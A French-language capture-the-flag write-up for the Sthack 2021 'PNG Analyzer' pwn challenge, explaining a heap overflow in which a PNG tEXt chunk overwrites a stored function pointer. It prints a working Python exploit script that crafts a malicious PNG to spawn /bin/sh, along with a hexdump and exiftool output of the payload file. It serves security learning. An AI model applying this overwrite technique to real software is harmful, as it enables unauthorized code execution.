 ```yaml
---
title: PWN - PNG Analyzer
category: Sthack2021
author: Vaelio
tags:
- sthack2021
- pwn
- ctf
description: "Writeup Sthack 2021 - PNG Analyzer - PWN"
---
```

## Fichier

- [Binaire](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/png_analyzer)

Introduction
===
Pour ce challenge, il faut d'abord réussir à télécharger le binaire à exploiter. 
Lorsqu'on se connecte à l'index du site on peut remarquer que le site tente de charger http://dev.img.local/troll.png. 
Or ce nom de domaine ne résouds pas. C'est notre hint. Ici on va simplement éditer notre `/etc/hosts` afin de faire pointer localement le nom de domaine vers l'IP originale.
À partir de là, dans le dossier upload, on peut trouver le binaire `png_analyzer`

Voilà les infos du programme :

```
~ 
❯ file ./Downloads/png_analyzer
./Downloads/png_analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=94ea393d939b2f7e83e650bbe1206da5a834e15e, for GNU/Linux 3.2.0, not stripped

~ 
❯ checksec ./Downloads/png_analyzer
[*] '/home/user/Downloads/png_analyzer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

TL;DR
===
En résumé le programme va prendre en argument un fichier à analyser, vérifier que le fichier est bien un PNG, va ensuite analyser chaque bloc de donnée du PNG et affichera les méta-donnés de tous les blocs de type `tEXt` avant de finir par exécuter la fonction `do_nothing` avec en paramètre le titre du bloc.

Par exemple, si nous avons dans notre PNG un bloc de type `tEXt` dont le titre est `Comment` alors le programme exécutera `do_nothing("Comment")`. La preuve en image:

![]({{site.url}}/static/upload_4a219d9ebbc5642622f99991aeacddb1.png)

Exploitation
===
Lorsqu'on reverse le binaire une chose nous saute aux yeux, le pointer vers `do_nothing` est stocké pour chaque bloc d'information dans le chunk qui lui est associé dans la `heap`.

![]({{site.url}}/static/upload_14379e33db0d981f8667232307814ae2.png)

Voici, en pseudo-code, la fonction `parse_chunk` qui parse les fameux bloc PNG:


![]({{site.url}}/static/upload_5a14c7c981fb9ec115bd91481ce42059.png)

On peut remarquer que l'écriture du pointer vers `do_nothing` se fait avant le `memcpy`. 

On constate également que le programme va chercher le pointer vers `do_nothing` avant de l'exécuter:
![]({{site.url}}/static/upload_8ae580cbfd8fc90299c540388bbf84e2.png)

**Bingo !** Il suffit donc que notre chunk puisse réécrire ce pointer.

En conclusion, il faut donc:
- que notre fichier soit un PNG
- que notre fichier contienne une donnée EXIF de type `tEXt` (par exemple Comment)
- que la valeur de cette donnée réécrive le pointeur vers `do_nothing`
- que rien ne crash :D

Voilà rapidement un petit script assez moche permettant d'obtenir un fichier qui nous donnera un shell local:

```python
#!/bin/env python3

from struct import pack
from os import system
import png


def mkImg():
    i = []
    for x in range(21):
        i.append([0,0,0,0])
    png.from_array(i, 'L').save("/tmp/test")
    buf = 'A'*0x1ffc + pack('<Q', 0x401160)
    with open('/tmp/buf', "w") as fd:
        fd.write(buf)
    system("exiftool -Comment=$(cat /tmp/buf) /tmp/test")
    with open("/tmp/test", "rb") as fd:
        content = fd.read()
    return content


def w(data):
    with open("/tmp/f", "wb") as fd:
        fd.write(data)



def main():
    data = mkImg()
    data = data[:41] + "/bin/sh\x00" + data[49:]
    w(data)



if __name__ == '__main__':
    main()


```


En bonus, un petit hexdump du fichier final et un exiftool
```
~
❯ hexdump -C /tmp/f
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 04 00 00 00 15  08 00 00 00 00 44 10 10  |.............D..|
00000020  9c 00 00 20 07 74 45 58  74 2f 62 69 6e 2f 73 68  |... .tEXt/bin/sh|
00000030  00 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |.AAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00002020  41 41 41 41 41 41 41 41  41 41 41 41 41 60 11 40  |AAAAAAAAAAAAA`.@|
00002030  76 b8 6c 27 00 00 00 0c  49 44 41 54 78 9c 63 60  |v.l'....IDATx.c`|
00002040  a0 13 00 00 00 69 00 01  11 3e ed a7 00 00 00 00  |.....i...>......|
00002050  49 45 4e 44 ae 42 60 82                           |IEND.B`.|
00002058
```

```
~
❯ exiftool /tmp/f
ExifTool Version Number         : 12.30
File Name                       : f
Directory                       : /tmp
File Size                       : 8.1 KiB
File Modification Date/Time     : 2021:10:18 12:29:49+02:00
File Access Date/Time           : 2021:10:18 17:04:07+02:00
File Inode Change Date/Time     : 2021:10:18 12:29:49+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 4
Image Height                    : 21
Bit Depth                       : 8
Color Type                      : Grayscale
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Binsh                           : AAAA[REDACTED]AAAA`.@
Image Size                      : 4x21
Megapixels                      : 0.000084
```

Conclusion
===
Un petit challenge plutôt simple, mais intéressant :+1: 
